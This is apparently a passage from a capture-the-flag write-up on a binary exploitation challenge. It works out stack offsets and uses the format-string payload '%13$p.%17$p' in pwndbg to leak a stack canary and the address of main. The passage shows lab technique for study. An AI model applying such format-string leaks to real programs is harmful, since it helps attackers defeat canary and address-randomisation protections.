 ```text
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]

```

So:

```text
var int64_t canary @ rbp-0x8
var char * format @ rbp-0x40

0x40 - 0x8 = 56 bytes

56 / 8 = 7 qword

# x86-64 calling convention (6 registers)
6 + 7 qword = 13 qword

canary@ 13 qword

canary @ rbp-0x8 => rbp@ 14 qword

main memory address @ rbp+0x18

0x18 = 24 bytes

24 / 8 = 3 qword

14 + 3 = 17 qword

main memory address @ 17 qword

```

This hypothesis is verified with gdb

`gdb`
```text
pwndbg> run
pwndbg> continue
pwndbg> continue

THM: What's your last streak? %13$p.%17$p

pwndbg> continue
Continuing.
0x3346c2194b110200.0x555555400992

Hi pwner 👾, keep hacking👩‍💻 - We miss you!😢
^C

pwndbg> x/i 0x555555400992
   0x555555400992 <main>:       push   rbp

```
